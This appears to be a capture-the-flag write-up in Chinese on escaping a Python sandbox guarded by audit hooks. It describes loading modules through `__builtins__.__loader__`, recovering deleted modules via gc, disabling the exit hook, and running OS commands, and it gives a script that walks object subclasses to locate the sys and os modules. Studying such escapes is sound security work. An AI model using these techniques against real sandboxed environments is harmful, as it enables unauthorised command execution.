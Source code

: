 而 `exec` 再傳入沒有 `builtins` key 的 global namespace 時，會把 `builtins` 自己加進去，程式可以透過 `__builtins__` 來取得。

- ipy 使用 `__builtins__` 時是當作 module (`__builtins__.__loader__`)，而 `exec` 內部是當作 dict (`__builtins__['__loader__']`)

目標有兩個:

1. bypass audithook 只能執行一次的限制
2. bypass modules 被刪除的限制

關於第一個目標，可以透過 `__builtins__.__loader__.load_module` 來取得 `<bound method _load_module_shim of <class '_frozen_importlib.BuiltinImporter'>>`，這樣就不需要 `import` module，可以在 audithook 不被 trigger 的情況下 import module。

之後透過 gc (garbage collection) 取得被 gc 所追蹤的 object list 來拿到被刪除的 modules:

- Returns a list of all objects tracked by the collector, excluding the list returned. If generation is not None, return only the objects tracked by the collector that are in that generation
- 不過目前 `gc.get_object()` 已經會 trigger audit event 了 (python 3.8.11, python 3.9)

在內部找到 `main` 以及 `os` 後，將 `__exit` 寫為 `lambda x: None` (`_sys.modules['__main__'].__exit = lambda x: None`)，並使用 `os` 來執行 command。



而另一個方法則不受 `gc.get_object()` 被加入 audit event 所限制，先使用常見的 python sandbox 取得所有 module 的 payload `''.__class__.__base__.__subclasses__()`，而某些 module 會使用 sys 作為 built-in function，因此需要找出該 module offset:

- python 3.8 的 `__globals__[]` 會讓 `object.__getattr__` audit event 叫，但是 python 3.9 卻不會 (?)

```python
#!/usr/bin/python3

classes = ''.__class__.__base__.__subclasses__()
module_list = {}

for (i, v) in enumerate(classes):
    if '__globals__' not in dir(v.__init__):
        continue
    if 'sys' not in module_list and 'sys' in v.__init__.__globals__:
        module_list['sys'] = {
            'offset': i,
            'module': v.__init__.__globals__['sys']
        }
    if 'os' not in module_list and 'os' in v.__init__.__globals__:
        module_list['os'] = {
            'offset': i,
            'module': v.__init__.__globals__['os']
        }
    if '_os' not in module_list and '_os' in v.__init__.__globals__:
        module_list['_os'] = {
            'offset': i,
            'module': v.__init__.__globals__['_os']
        }
    # if '__builtins__' not in module_list and '__builtins__' in v.__init__.__globals__:
    #     module_list['__builtins__'] = {
    #         'offset': i,
    #         'module': v.__init__.__globals__['__builtins__']
    #     }
    
print(module_list)
```
